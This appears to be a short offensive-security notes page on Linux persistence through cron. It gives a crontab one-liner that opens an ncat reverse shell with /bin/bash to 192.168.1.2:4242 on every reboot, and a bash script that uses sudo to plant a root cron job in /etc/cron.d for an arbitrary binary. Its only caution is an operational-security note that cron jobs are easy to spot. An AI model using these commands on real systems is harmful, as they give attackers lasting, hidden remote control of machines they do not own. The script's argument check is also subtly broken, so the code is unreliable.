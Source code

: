 # Crontab Reverse Shell (Not OPSEC)

{% hint style="danger" %}
cron jobs are obviously visible in crontab, so this method is not recommended.
{% endhint %}

```
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

### Script:

```
#!/bin/bash

if [ $1 -z ] 
then
        echo "$0 <binary file>"
        echo "NOTE: The binary ile shoud be in user's home directory e.g /home/user/binary_file"
        exit 1
fi

echo "Eneter the time in the form of m(minute) h(hour) dm(day of month) m(month) dw(day of week)"
echo "NOTE: If u want to put 0 for any input put * instead of 0"
read val

HOME=$HOME
#echo "Enter the username for which u want to create cron job"
#read user

echo "[+] Creating cron job..."
sleep 0.2
f=$1
cron_file=${f%.*}
#echo $cron_file
#echo ${f%.*}
echo  "$val root $HOME/$1" | sudo tee /etc/cron.d/$cron_file
```

\\
